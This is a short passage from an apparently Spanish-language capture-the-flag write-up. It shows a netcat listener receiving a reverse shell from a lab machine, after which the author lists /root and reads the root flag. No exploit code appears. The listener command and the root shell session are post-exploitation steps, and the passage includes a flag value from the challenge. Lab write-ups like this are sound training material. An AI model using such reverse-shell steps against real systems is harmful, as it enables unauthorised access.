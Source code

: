 #### Una vez con shell sacamos la bandera
```
nc -lnvp 3939         
listening on [any] 3939 ...
connect to [10.13.81.73] from (UNKNOWN) [10.10.76.203] 60336
sh: 0: can't access tty; job control turned off
# cd /root
# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
# cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
# 


```
